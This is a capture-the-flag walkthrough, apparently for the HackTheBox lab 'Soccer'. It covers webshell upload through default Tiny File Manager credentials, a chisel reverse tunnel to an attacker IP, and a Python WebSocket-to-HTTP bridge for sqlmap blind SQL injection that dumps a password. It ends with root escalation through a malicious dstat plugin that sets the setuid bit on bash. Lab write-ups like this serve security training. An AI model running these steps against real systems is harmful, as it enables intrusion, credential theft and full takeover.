




# Soccer

## Reconnaissance 

### nmap


- Open Port: 
    - Port 22 - SSH
    - Port 80 - HTTP
    - Port 9091 - unknown

### gobuster

```
gobuster dir -u http://soccer.htb -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt
```

### website 


#### tinyfilemanager php file

- the default password for tiny file manager: 
```
admin / admin@123
user / 12345
```


- After Login


- Move to upload function
- The default upload location is: ```/var/www/html```


- Try to upload a php shell, but it will failed
- The root cause might be permission.
- Error message : 
```
The specified folder for upload isn't writable
```


- So, I think the first challenge is find a directory which is writeable for current user.
- After enumeration, I find a directory: ```/var/www/html/tiny/uploads``` works.


- Upload the webshell


- Access to the shell 
```
http://soccer.htb/tiny/uploads/shell.php
```


- Check the nc status 


## Exploit 

### webshell

- After get into victim server, I got www-data permissoin.


- Do some enumerate in victim host
- Check sudo --> Need Password
- Check crontab --> no anymore interesting
- Try to access /home/player  --> failed


- Check network state
```
netstat -tunlp
```


- Here are some other ports 
    1. port 3306
    2. port 33060
    3. port 3000
    4. port 9091

- First thinking is login to mysql, but it will failed, since I don't know the username and password.
    - Check mysql version
        
    - Find a docker yml which contents a credential
        
    - Check the yml content
        
    - Try the credential to login mysql --> failed
        

- So I upload linpeas to enumerate again.
- The linpeas result find some interesting: 
- Interesting file in ``` / ```


- Check ```/ ``` directory
    - vagrant directory --> empty folder
    
    - data --> empty folder
    
- fastcgi



- nginx


- Check nginx 
1. nginx.conf


- Access and Error log 


- Virtual host config and site-enables location


2. conf.d --> empty


3. site-available


- Check ```soc-player.htb``` 
```
cat soc-player.htb
```


- Set up ```soc-player.soccer.htb``` to host file or using ```chisel ``` to forward the port to attacker's local. (chisel actually is not necessary.)
    - chisel(Kali)
    ```
    ./chisel server -p 9898 --reverse
    ```
    
    
    - chisel (victim)
    ```
    ./chisel client 10.10.19.16:9898 R:3000:127.0.0.1:3000
    ```
    
    
- Directory enumerate for this subdomain
```
gobuster dir -u http://127.0.0.1:3000 -w /usr/share/wordlists/dirb/common.txt
```


- And access it from browser.
```
soc-player.soccer.htb
```


- Login Page


- Sign up Page, create an accunt. 


- Login and observe the communicate
- Here is a ticket check page


- The web source as below
- Here are an interesting script snipet 
- And I know the ticket check function will use websocket to communicate.
```
ws://soc-player.soccer.htb:9091
```


- We detaily observe the request
- The interesting point is the Host server is soc-player.soccer.htb:9091
- It fits to the nmap result, the port 9091 is open
- I think this subdomain deploy on port 3000 internal, but it will redirect to port 9091 external


- Here are the websocket request and response in burp


- If the request ticket id is correct one, it will reply 'Ticket Exist' or it will reply 'Ticket Doesn't Exist' 


- So, the backend will query the ticket id to confirm is it exist or not.
- Then the next step is find out the vulnerability on websocket.
- I have tried many special character, but the response message always same:


>Since the function is using websocket to communicate to backend server to check the ticket 
>I'm not sure those special character will be procced to other check or not in backend.
>But, I still think there is a SQLi in this check function
>So, I do some research for SOLi in websocket, and find this [article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html).

### Convert websocket to http request

- Convert code (python) 
```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:9696/?id=*")

try:
	middleware_server(('0.0.0.0',9696))
except KeyboardInterrupt:
	pass
```


- Execute it
```
python3 websocketsql.py
```


- Access to localhost port 9696 with random id


- The log will looks like 


- And the following one shows what the log will look like when sqlmap executing, 


### Sqlmap 
- I have tried following sqlmap command, but all of them are failed, and I don't know the reason....

```
1. sqlmap -u "http://127.0.0.1:9696/?id=1" --batch --dbs
2. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id
3. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id --current-db
4. sqlmap -u "http://127.0.0.1:9696/?id=1" --current-user
5. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id --current-user
```


- The final success to get some information one

```
sqlmap -u "http://127.0.0.1:9696/?id=1" --dump-all --exclude-sysdbs
```


- According to above result, I think that is blind sqli by time-based.


- After above test and enumerate in victim host,
    - The DBMS is MySQL (since port 3306 is mysql default port)
    - The injection parameter is 'id'
    - The Sql attack method definetly is Blind Sql injection, so I try B: Boolean-based and T: Time-based
- Let's try the following one.
```
sqlmap -u "http://localhost:9696/?id=1" --dbms "MySQL" --technique BT -p id --dump-all --batch --dbs
```
- And I got the result as follow:
```
information_schema
mysql
performance_schema
soccer_db
sys
```
- The soccer_db is my target


- Then I stop the sqlmap, since it will take too long time to retrieved all the DB's table.
- So, I do a little modify for sqlmap command
```
sqlmap -u "http://localhost:9696/?id=1" --dbms "MySQL" --technique BT -p id --dump-all --batch -D soccer_db --tables
```
- And I also got the table name: accounts


- The columns for table accounts as follow:
```
email, id, password, username
```


- The entries of this table:(got credential)
```
email: player@player.htb
id: 1234
password: PlayerOftheMatch2022
account: player
```

- Using this credential to login to soc-player.soccer.htb


- Try the credential to login to ssh


- Get the player permission


- Get user flag: ``` 085311137513dbee35faa31f5459c6dc ``` 


## Post Exploitation

- After get into victim with player permission by SSH
- Check the sudo permissoin
```
sudo -l 
```
- But failed to read 


- Execute the linpeas again.
- Possible CVE


- password related file 


- The critical point is this one.
- The user player can execute``` /usr/bin/dstat ```as root without password


- dstat usage 
>dstat is a versatile tool for generating system resource statistics.
It allows users to create a custom plugin and execute by adding option e.g. dstat --myplugin.


- And, do some research for dstat privilege escalation


### Privilege Escalation

- Let's create an extension
```dstat_escalte.py
import os
os.system('chmod +s /usr/bin/bash')
```


- According to linpeas result, the dstat permit for user player is defined in ```doas.conf```
- So, I also do some research for doas 
>OpenDoas is a portable version of OpenBSD's doas command, known for being substantially smaller in size compared to sudo. Like sudo, doas is used to assume the identity of another user on the system.


- doas usage


- So I think I should execute dstat by doas like
```
doas dstat ....
```
- Check the extension list
- The privilege escalation extension has been added.
```
doas /usr/bin/dstat --list
```


- Execute the malicious extension
```
doas /usr/bin/dstat --escalte
```


```
bash -p
```


- Get root flag:
```
eb562b042f6a7baac652c9fab3dad856
```


## Reference

### Writeup and Discussion

- [(Discussion)soccer](https://forum.hackthebox.com/t/official-soccer-discussion/269344/11)
- [Writeup-1](https://gatogamer1155.github.io/hackthebox/soccer/)
- [Writeup-2](https://blog.213.se/soccer-hackthebox/)

### tinyfilemanager

- [(Github)Tiny File Manager](https://github.com/prasathmani/tinyfilemanager)
### nginx

- [用 Nginx 伺服器建立反向代理](https://ithelp.ithome.com.tw/articles/10221704)
### websocket

- [websocket client](https://pypi.org/project/websocket-client/)
- [(Practice Lab)websocket-sqli practice docker](https://github.com/rayhan0x01/nodejs-websocket-sqli)
- [(Important)Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) [**Important**]
### sqlmap

- [一勞永逸的sqlmap手動升級方法](https://kknews.cc/zh-tw/news/p8n58rp.html)
- [SqlMap Cheatsheet - 1 ](https://daronwolff.com/sqlmap-cheetsheet/)
- [SQLMap Cheat Sheet - 2 ](https://i-am-takuma.medium.com/sqlmap-cheat-sheet-8dc29054528c)
- [sqlmap Download and update](https://github.com/sqlmapproject/sqlmap/wiki/Download-and-update)
- [Sqlmap usage](https://www.cnblogs.com/Sylon/p/11747464.html)
- [sqlmap usage-2](https://nanshihui.github.io/2016/02/25/sqlmaptips/)


- [DVWA 1.9+: Blind SQL Injection with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7)
### privilege esclation: dstat & doas.conf

- [DOAS.CONF(5)](https://man.openbsd.org/doas.conf.5)
- [doas](https://wiki.archlinux.org/title/Doas)
- [dstat](https://linux.die.net/man/1/dstat)
- [Sudo Privilege Escalation](https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/)


### linux tools

- [vim paste format](https://stackoverflow.com/questions/2514445/turning-off-auto-indent-when-pasting-text-into-vim)


### Chisel

- [Tunneling and port forwarding tools used during red teaming assessments](https://resources.infosecinstitute.com/topic/tunneling-and-port-forwarding-tools-used-during-red-teaming-assessments/)
- [(Github)chisel](https://github.com/jpillora/chisel)
- [Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)


## debug 

>When I try to execute the websocket python file from [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html).
>I named the py file as websocket.
>Then I execute it will get error message like "cannot import name create_connection from partially initialized module websocket (most likely due to a circular import)"

- The solution I search as followed link:
1. [ImportError: cannot import name create_connection #299](https://github.com/websocket-client/websocket-client/issues/299)
2. [Python 的 Import 陷阱](https://medium.com/pyladies-taiwan/python-%E7%9A%84-import-%E9%99%B7%E9%98%B1-3538e74f57e3)
- The solution for me comes from the following screenshot:


- Don't have a file called ```websocket.py``` in the directory you are running python from.
- I think it will cause conflict.

###### tags: `HackTheBox` `Easy` `File upload` `SQLi` `Internal Page` `sqlmap` `SQL Injection` `dstat` `doas` `websocket`